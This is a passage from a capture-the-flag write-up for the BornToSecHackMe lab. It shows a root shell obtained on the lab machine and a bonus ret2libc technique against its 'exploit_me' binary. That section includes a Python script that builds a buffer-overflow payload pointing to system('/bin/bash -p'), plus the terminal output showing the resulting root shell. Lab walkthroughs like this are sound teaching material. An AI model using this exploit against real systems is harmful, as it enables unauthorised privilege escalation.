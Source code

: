 And voila ! We now can go to root's home and we find a README congratulating us.
```text
bash-4.2# cat README
CONGRATULATIONS !!!!
To be continued...
bash-4.2# 
```

![](https://static.wikia.nocookie.net/thesims4memehouse/images/b/b7/Bogan_Default_Dance.gif/revision/latest?cb=20210304203924)

### Bonus Ret2Libc

There's another way to exploit the `exploit_me` which is to point to a libc function (eg. system) instead of pointing to a shellcode.

In order to do that, we first need to find 3 addresses :
- The address of a libc function that we want to call, we'll choose `system`.
- The address of `exit` function which is kind of optional, you can a bad address but it'll be noticed because the exit status will indicate that the program has segfaulted after leaving system.
- The address of our argument which is a string containing "/bin/bash -p".

To retrieve `system` and `exit`, we'll just use gdb and print the addresses. Now, for the address of our argument we could send it by adding another command argument since it only checks that `argc > 1`. However, we're lazy and we'll just send it at the end of our payload and send the address of our buffer + 140 + 4 * 3.

So our payload should look like this :
```
PADDING + ADDR_SYSTEM + ADDR_EXIT + ADDR_COMMAND + COMMAND
```

The script that allows us to generate the payload :
```py
import struct

system_addr = struct.pack('<I', 0xb7e6b060)
exit_addr = struct.pack('<I', 0xb7e5ebe0)
libc_addr = struct.pack('<I', 0xb7e2c000)
command_addr = struct.pack('<I', 0xbffff640 + 140 + 4 * 3)
command = b"/bin/bash -p \x00"
payload = 140 * b"\x90" + system_addr + exit_addr + command_addr + command
with open("payload", "wb") as f :
    f.write(payload)
```

The command same as before :
```text
zaz@BornToSecHackMe:~$ ./exploit_me "$(cat payload)"
��������������������������������������������������������������������������������������������������������������������������������������������`���������/bin/bash -p 
bash-4.2# exit
```